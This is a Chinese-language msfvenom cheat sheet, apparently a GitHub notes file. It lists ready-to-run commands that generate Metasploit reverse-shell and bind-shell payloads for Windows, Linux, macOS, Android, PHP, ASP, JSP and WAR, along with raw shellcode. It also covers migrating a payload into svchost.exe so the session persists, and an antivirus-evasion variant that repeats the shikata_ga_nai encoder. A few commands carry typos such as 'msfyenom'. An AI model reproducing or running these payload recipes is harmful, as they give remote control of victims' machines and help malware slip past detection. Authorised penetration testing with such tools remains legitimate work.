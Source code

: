 # msfvemon 
[MSF生成Payload/反弹shell 方式总结](https://mp.weixin.qq.com/s/pIakrui_9vsQdun7aopUYw)

如果tcp不行换协议
reverse_tcp
reverse_http

常用参数
- 比如想查看windows/meterpreter/reverse_tcp支持什么平台、哪些选项,可以使用
msfvenom -p windows/meterpreter/reverse_tcp --list-options
- msfvenom --list payloads可查看所有payloads
- msfvenom --list encoders可查看所有编码器
  - 评级最高的两个encoder为 cmd/powershell_base64 和 x86/shikata_ga_nai,其中 x86/shikata_ga_nai也是免杀中使用频率最高的一个编码器
类似可用 msfvenom--list 命令查看的还有payloads,encoders,nops,platforms,archs,
encrypt,formats

## filter payloads list
```bash
# filter php
msfvenom -l payloads | grep "php" | awk '{print $1}'
```


## payload的可持续化
- 自动迁移到进程
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f exe -o shell.exe
```

- 生成的shell程序执行后会启动两个进程shell.exe和svchost.exe,关闭其中一个不会影响会话状态.
在上面的生成payload参数中:
- (1) PrependMigrate＝true PrependMigrateProc＝svchost．exe 使这个程序默认会迁移到
svchost.exe进程,自己测试的时候不建议到这个进程而是其他的持久进程.
- (2)使用-p指定使用的攻击载荷模块,使用-e指定使用x86／shikata_ga_nai编码器,使用-f选项告
诉MSF编码器输出格式为exe,-o选项指定输出的文件名为payload.exe,保存在根自录下.

## 正向反向payload区别, reverse_tcp和bind_tcp区别：
目标机器可以上网，那就使用reverse_tcp，让目标机器出网连接我们的服务器
无法外网的，使用正向连接，反向出不来 windows/x64/meterpreter/bind_tcp

注意，获得meterpreter的顺序为：先在win机器上执行我们的exe，然后再在msf上执行`exploit`。与`reverse_tcp`的顺序刚好相反。

```shell
[reverse_tcp]
attacker -> [contact me at the port 4444] -> victim

after the payload is executed
attacker <-> [port 4444] <-> victim

[bind_tcp]
attacker -> [open the way for me in the port 4444] -> victim

after execution
attacker <-> [port 4444] <-> victim
```


## 各平台的 payload/bin/exe/反弹shell
https://micro8.gitbook.io/micro8/contents-1/1-10/10msfvenom-chang-yong-sheng-cheng-payload-ming-ling

```bash
# Windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=1234 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1234 -f exe > shell.exe
msfvenom -p windows/meterpreter/bind_tcp LPORT=5555 -f exe >bind.exe
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=$ip LPORT=1234  -f raw -o payload.ps1
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.2.157 -e x86/shikata_ga_nai -b "\x00" -f py 
# 默认的stageless payload只会包含stageless，所以如果想将stdapi和priv两个组建给包含进去的华我们可以用extensions命令：
msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe

# Linux
msfyenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -a x86 --platform Linux -f elf > shell.elf

# Mac
msfyenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho>shell.macho

# Android
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -f raw > shell.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 R > test.apk
# PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.80.103 LPORT=1123 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php' | tr-d '\n'>shell.php && pbpaste >> shell.php
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YourP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address>LPORT=<Your Port to Connect On> -f raw > shell.jsp
# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ip LPORT=1234 -f war > shell.war

# shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```
免杀版命令
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.161 LPORT=1234 -e x64/shikata_ga_nai -i 5 -f exe > shell.exe
```